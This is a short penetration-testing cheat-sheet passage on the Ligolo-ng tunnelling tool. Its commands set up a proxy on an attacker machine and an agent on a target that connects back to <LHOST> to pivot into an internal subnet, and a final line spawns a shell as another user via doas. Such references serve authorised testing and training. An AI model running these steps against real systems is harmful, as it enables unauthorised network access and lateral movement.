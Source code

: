 #### Ligolo-ng

> https://github.com/nicocha30/ligolo-ng

##### Download Proxy and Agent

```c
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
```

##### Prepare Tunnel Interface

```c
sudo ip tuntap add user $(whoami) mode tun ligolo
```

```c
sudo ip link set ligolo up
```

##### Setup Proxy on Attacker Machine

```c
./proxy -laddr <LHOST>:443 -selfcert
```

##### Setup Agent on Target Machine

```c
./agent -connect <LHOST>:443 -ignore-cert
```

##### Session

```c
ligolo-ng » session
```

```c
[Agent : user@target] » ifconfig
```

```c
sudo ip r add 172.16.1.0/24 dev ligolo
```

```c
[Agent : user@target] » start
```

#### Linux

##### CentOS

```c
doas -u <USERNAME> /bin/sh
```
